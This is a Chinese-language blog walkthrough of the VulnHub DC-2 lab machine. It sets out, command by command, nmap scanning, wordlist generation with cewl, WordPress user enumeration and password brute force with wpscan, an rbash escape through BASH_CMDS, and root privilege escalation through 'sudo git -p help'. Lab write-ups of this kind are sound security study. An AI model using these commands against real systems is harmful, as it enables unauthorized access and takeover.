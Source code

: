 ```yaml
---
title: "VulnHub-DC2"
layout: post
date: 2021-12-10 21:36
image: 
headerImage: false
tag:
- web
- vulnhub
category: blog
author: NoThxJ
description: VulnHub
---
```


环境下载地址:

<https://www.five86.com/dc-2.html>

环境搭建：

![1](https://havocykp.github.io/assets/images/img_blog4/1.png)

信息收集

nmap 获取其IP地址

命令：nmap -sP 192.168.2.0/24 

通过主机名DC-2 识别IP为192.168.2.233

![2](https://havocykp.github.io/assets/images/img_blog4/2.png)

或者通过MAC地址识别目标IP

提示修改host文件的配置，添加ip地址和域名（访问80端口时，会自动跳转成dc-2，不修改会无法访问）

![3](https://havocykp.github.io/assets/images/img_blog4/3.png)

修改 parrot 的host文件

![4](https://havocykp.github.io/assets/images/img_blog4/4.png)

![5](https://havocykp.github.io/assets/images/img_blog4/5.png)

漏洞利用

获取 flag1

利用nmap对目标主机进行端口扫描

```javascript
命令：nmap -sV -p- 192.168.2.233
参数说明：
    -sV 用来扫描目标主机和端口上运行的软件的版本
	-p 80 指定80端口
    -p- 扫描 0-65535全部端口
```

扫描发现，开放了80和7744端口

![6](https://havocykp.github.io/assets/images/img_blog4/6.png)

访问：<http://192.168.2.233>，获取 *flag1*

![7](https://havocykp.github.io/assets/images/img_blog4/7.png)

访问网页，是一个wordpress模板的博客网站，页面直接获得 flag1

提示使用 cewl密码字典生成工具，并且在登录后可以找到下一个 flag

![8](https://havocykp.github.io/assets/images/img_blog4/8.png)



获取 flag2

根据 flag1的提示，使用 cewl生成密码保存在当前目录的 pwd.txt 中

```javascript
命令：
┌─[root@pendo]─[/home/pendo]
└──╼ #cewl http://dc-2/ -w pwd.txt
```

![9](https://havocykp.github.io/assets/images/img_blog4/9.png)

获取用户名（wpscan）

现在，密码有了，还得获取用户名

前面已经知道这是个 WordPress网站，可以用 wpscan扫描来枚举网站中的可用用户名

```javascript
命令：
┌─[root@pendo]─[/home/pendo]
└──╼ #wpscan --url dc-2 -e u
```

![10](https://havocykp.github.io/assets/images/img_blog4/10.png)

扫描发现存在 admin、jerry、tom用户

![11](https://havocykp.github.io/assets/images/img_blog4/11.png)

新建一个.list文件（dc-2users.list），将扫描到的三个用户名添加到该文件中

![12](https://havocykp.github.io/assets/images/img_blog4/12.png)

知道了用户名，结合cewl工具生成的字典文件进行爆破

```javascript
命令：
┌─[root@pendo]─[/home/pendo]
└──╼ #wpscan --url http://dc-2/ -U dc-2users.list -P pwd.txt 
```

![13](https://havocykp.github.io/assets/images/img_blog4/13.png)

爆破出两个用户的密码

![14](https://havocykp.github.io/assets/images/img_blog4/14.png)

扫描网站后台

```javascript
命令：
┌─[✗]─[root@pendo]─[/home/pendo]
└──╼ #dirb http://dc-2/
```

![15](https://havocykp.github.io/assets/images/img_blog4/15.png)

访问：<http://dc-2/wp-admin/>

![16](https://havocykp.github.io/assets/images/img_blog4/16.png)

使用爆破的用户名/密码进行登录，在jerry中发现 flag2；tom用户名登录后没发现

![17](https://havocykp.github.io/assets/images/img_blog4/17.png)

![18](https://havocykp.github.io/assets/images/img_blog4/18.png)

![19](https://havocykp.github.io/assets/images/img_blog4/19.png)



获取 flag3

结合扫出来的开放服务，尝试ssh登录

经尝试只能使用tom登录

```javascript
命令：
┌─[✗]─[root@pendo]─[/home/pendo]
└──╼ #ssh tom@192.168.2.233 -p 7744
```

输入命令查看 flag3.txt内容失败，受限shell（限制了可执行的命令）

![20](https://havocykp.github.io/assets/images/img_blog4/20.png)

① 使用 vi 命令查看 flag3.txt内容

![21](https://havocykp.github.io/assets/images/img_blog4/21.png)

② 绕过受限shell（rbash限制绕过）

```javascript
命令：
tom@DC-2:~$ BASH_CMDS[a]=/bin/sh;a
$ /bin/bash
```

![22](https://havocykp.github.io/assets/images/img_blog4/22.png)



使用并添加环境变量

命令：tom@DC-2:~$ export PATH=$PATH:/bin/

![23](https://havocykp.github.io/assets/images/img_blog4/23.png)



获取 flag4

切换到 jerry用户

切换到 jerry目录，查看文件，发现 flag4.txt

通过命令cat 查看内容

![24](https://havocykp.github.io/assets/images/img_blog4/24.png)



获取 flag5

根据 flag4 提示，还不是最终的flag

提示git，查看sudo配置文件，发现git是root，不用密码可以运行，搜索git提权

![25](https://havocykp.github.io/assets/images/img_blog4/25.png)



进行提权

```javascript
命令：
1. sudo git -p help
2. !/bin/bash
```

![26](https://havocykp.github.io/assets/images/img_blog4/26.png)

切换目录，找到最终的 flag

![27](https://havocykp.github.io/assets/images/img_blog4/27.png)

